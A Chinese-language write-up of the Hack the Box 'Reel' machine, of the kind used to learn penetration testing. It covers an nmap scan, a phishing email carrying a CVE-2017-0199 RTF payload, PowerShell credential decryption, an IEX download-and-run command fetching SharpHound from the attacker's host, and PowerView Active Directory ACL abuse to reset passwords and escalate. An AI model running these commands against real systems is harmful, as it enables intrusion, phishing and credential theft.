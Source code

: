 ```yaml
---
title: Reel
date: 2021-12-24 11:32:51
tags: Hack the Box
top: true
categories: 邮箱钓鱼
---
```


## 信息收集

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-14 05:18 EST
Nmap scan report for 10.10.10.77
Host is up (0.30s latency).
Not shown: 9997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp open  ssh     OpenSSH 7.6 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:20:c3:bd:16:cb:a2:9c:88:87:1d:6c:15:59:ed:ed (RSA)
|   256 23:2b:b8:0a:8c:1c:f4:4d:8d:7e:5e:64:58:80:33:45 (ECDSA)
|_  256 ac:8b:de:25:1d:b7:d8:38:38:9b:9c:16:bf:f6:3f:ed (ED25519)
25/tcp open  smtp?
| fingerprint-strings: 
|   Hello: 
|     220 Mail Service ready
|     EHLO Invalid domain address.
|   Help: 
|     220 Mail Service ready
|     DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|   NULL: 
|_    220 Mail Service ready
| smtp-commands: REEL, SIZE 20480000, AUTH LOGIN PLAIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port25-TCP:V=7.91%I=7%D=11/14%Time=6190E2F5%P=x86_64-pc-linux-gnu%r(NUL
SF:L,18,"220\x20Mail\x20Service\x20ready\r\n")%r(Hello,3A,"220\x20Mail\x20
SF:Service\x20ready\r\n501\x20EHLO\x20Invalid\x20domain\x20address\.\r\n")
SF:%r(Help,54,"220\x20Mail\x20Service\x20ready\r\n211\x20DATA\x20HELO\x20E
SF:HLO\x20MAIL\x20NOOP\x20QUIT\x20RCPT\x20RSET\x20SAML\x20TURN\x20VRFY\r\n
SF:");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   301.22 ms 10.10.14.1
2   301.21 ms 10.10.10.77

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 185.69 seconds
```

<!--more-->

发现开放了21端口，可以匿名登录，并且在documents目录下发现了两个docx文件，我们将其下载下来并使用exiftool查看内容如下![在这里插入图片描述](https://img-blog.csdnimg.cn/15c476e67c4941c6b76d60c03fdede70.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
readme.txt文件告诉我们有人正在等待 .rtf 文件并将打开它们进行审查，因为考虑到机器上正在运行 SMTP 服务，这可能是我们的目标，具有网络钓鱼攻击。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c858f787033a4c5b8a8cbbe73d598b86.png)

查阅官方文档发现，AppLocker可以阻止可执行文件和脚本

```bash
AppLocker procedure to be documented - hash rules for exe, msi and scripts  (ps1,vbs,cmd,bat,js) are in effect.
```

我们发现Windows Event Forwarding.docx这个文件中存在一个邮箱地址`nico@megabank.com`
![在这里插入图片描述](https://img-blog.csdnimg.cn/14102687e160477884fd2f3e6c8910a6.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

根据刚刚readme.txt的文件内容，我们可以尝试将rtf文件发送到这个地址上，我们从application字段中发现我们可以使用word文档的方式进行创建。并且我们在网上搜索看到，关于rtf文件漏洞利用是已经披露的漏洞编号`CVE-2017-0199`，此漏洞允许创建恶意 rtf 文档，在打开文档时启动 HTA（超文本应用程序)有效负载，Github 上有一个用于制作利用此漏洞的恶意文档的 Python 工具包，但也有一个 Metasploit 模块，我仍然将使用 Python 脚本。

## 漏洞利用

首先我们创建一个hta的载荷
![在这里插入图片描述](https://img-blog.csdnimg.cn/b6c156c3e5e84eebb3b7207a29673574.png)
本地开启http服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/ebf7fdbfa46043bb84f2a0e1c331c6c7.png)

然后利用这个hta脚本，创建rtf文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/bf21d9b792054d399fe94052c21c3129.png)
最后发送钓鱼邮件进行获取权限

```bash
sendEmail -f 0xdf@megabank.com -t nico@megabank.com -u Test -m "Hey, take a look at this new format procedure" -a document.rtf -s 10.10.10.77 -v
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/f64aa5ef2a984a4e92fd8dfed197da16.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发送钓鱼邮件并开启监听，我们得到了nico账户的用户权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/6965f266fe7341beb4fd71506ff9335b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 提权到TOM权限

我们从Nico账户的桌面上看到一个cred.xml文件，文件内容包含了password字段内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/b971324dcaa14613a8d91aa6b4997923.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
PowerShell 有一个称为 PSCredential 的对象，它提供了一种存储用户名、密码和凭据的方法。还有两个函数Import-CliXml和Export-CliXml，用于将这些凭据保存到文件中并从文件中恢复它们。该文件是Export-CliXml，我们发现Tom的密码是`1ts-mag1c!!!`

```bash
C:\Users\nico\Desktop>powershell -c "$cred=Import-CliXml -Path cred.xml;$cred.GetNetworkCredential() | Format-List *"
powershell -c "$cred=Import-CliXml -Path cred.xml;$cred.GetNetworkCredential() | Format-List *"

UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

因为目标主机开放了22端口，因此我们可以连接主机的远程服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0ef87585054476281e5aa1595fa284e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在tom的桌面的AD audit文件夹下发现了一个有趣的文件内容，还有一个BloodHound文件夹
![在这里插入图片描述](https://img-blog.csdnimg.cn/67be2e3fd4494a14bc46cd3a6af8eb45.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e9b9cfa8736d42788e6f32b6d3b628fa.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
经过查阅文章发现，bloodhound通过csv文件形式保存文件的，都是2.0版本以前的了，那么我们现在有两个选择，一个是在目标主机上安装旧版本的bloodhound，二是将收集到的数据上传到我们攻击机上进行分析，我选择的是第二种方式。

首先我们将目标的脚本加载到内存中，绕过powershell的策略限制。收集到的信息保存在当前目录的一个压缩包中。

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/sharphound/SharpHound.ps1')
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/44243984d10a4293a08aebd5b9748298.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
为了传输方便，我们在本地开启smb服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/65746cbe84ba4b048fb124b74a55a741.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在攻击机上开启bloodhound后，将压缩包拖进去进行分析，点击`Shortest Paths to High Value Targets`。为了方便筛选，我们选择tom到admin的提权路径和nico到admin的路径进行分析
![在这里插入图片描述](https://img-blog.csdnimg.cn/29bd464348754983b4412b33ca42a996.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/399172cccb7243948e1b64abf136697b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我知道 claire 对 Backup_Admins 组具有 WriteDacl 权限。我可以用它把她加到群里，但是事先我们先得连接到claire这个用户上。

## 提权到Administrator

首先，我们将自己设置为 claire 帐户的所有者，以便我们可以更改她的属性；然后我们更改 claire AD 对象的访问控制列表 (ACL) 以授予我们自己 (Tom) 重置 claire 密码的权限；然后我们为该帐户选择一个新密码并将其转换为 SecureString 格式，这就是 PowerShell 用于密码的格式；我们可以使用我们选择的一个更改 claire 的密码；为了将用户添加到组，我们必须提供有效的用户凭据，因此我们声明一个 PSCredential 对象来包含 claire 的用户名和密码，因为她是对 Backup_Admins 组具有写访问权限的人；最后我们使用它来将自己添加到 Backup_Admins 组

```bash
PS C:\Users\tom\Desktop\AD Audit\BloodHound> import-module .\PowerView.ps1
PS C:\Users\tom\Desktop\AD Audit\BloodHound>  Set-DomainObjectOwner -Identity claire -OwnerIdentity tom                         
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-ObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword  
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $password= ConvertTo-SecureString 'Password_123!' -AsPlainText -Force              
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire -AccountPassword $password                 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $creds = New-Object System.Management.Automation.PSCredential('HTB\claire',$passwor
d)                                                                                                                              
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainGroupMember -Identity 'Backup_Admins' -Members 'claire' -Credential $cred
s
```

whoami /all查看到我们已经处于backup_admins组中了
![在这里插入图片描述](https://img-blog.csdnimg.cn/9ff1c27957d54fe3b71bfa62126f58b1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
但是我们还是无法查看root.txt的内容，我们却可以查看`Backup Scripts`的内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/b4491a3626c84023b3f122732aa44800.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
但是我们在`BackupScript.ps1`中找到管理员的密码
![在这里插入图片描述](https://img-blog.csdnimg.cn/3285fc7c314a4f98840bb0bc74f27320.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
直接登录管理员账号
![在这里插入图片描述](https://img-blog.csdnimg.cn/f96c6ddacbff4775947400c9dfd03743.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
